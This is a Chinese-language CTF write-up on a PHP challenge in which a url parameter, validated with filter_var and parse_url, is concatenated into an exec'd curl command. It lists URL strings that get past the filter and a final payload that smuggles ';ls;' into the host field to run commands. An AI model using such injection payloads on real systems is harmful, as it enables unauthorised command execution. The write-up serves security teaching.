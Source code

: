<img src=".\图片\6.png" alt="6" style="zoom:80%;" />

这道CTF题目，实际上考察的是 **filter_var** 函数的绕过与远程命令执行。在题目 **第6行** ，程序使用 **exec** 函数来执行 **curl** 命令，这就很容易让人联系到命令执行。所以我们看看用于拼接命令的 **$site_info['host']** 从何而来。在题目 **第2-4行** ，可以看到  **$site_info** 变量是从用户传来的 **url** 参数经过 **filter_var** 和 **parse_url** 两个函数过滤而来。之后，又规定当 **url** 参数的值以 **sec-redclub.com** 结尾时，才会执行 **exec** 函数。

所以让我们先来绕过 **filter_var** 的 **FILTER_VALIDATE_URL** 过滤器，这里提供几个绕过方法，如下：

```bash
http://localhost/index.php?url=http://demo.com@sec-redclub.com
http://localhost/index.php?url=http://demo.com&sec-redclub.com
http://localhost/index.php?url=http://demo.com?sec-redclub.com
http://localhost/index.php?url=http://demo.com/sec-redclub.com
http://localhost/index.php?url=demo://demo.com,sec-redclub.com
http://localhost/index.php?url=demo://demo.com:80;sec-redclub.com:80/
http://localhost/index.php?url=http://demo.com#sec-redclub.com
PS:最后一个payload的#符号，请换成对应的url编码 %23
```

接着要绕过 **parse_url** 函数，并且满足 **$site_info['host']** 的值以 **sec-redclub.com** 结尾，payload如下：

```bash
http://localhost/index.php?url=demo://%22;ls;%23;sec-redclub.com:80/
```

<img src=".\图片\7.png" alt="7" style="zoom:80%;" />
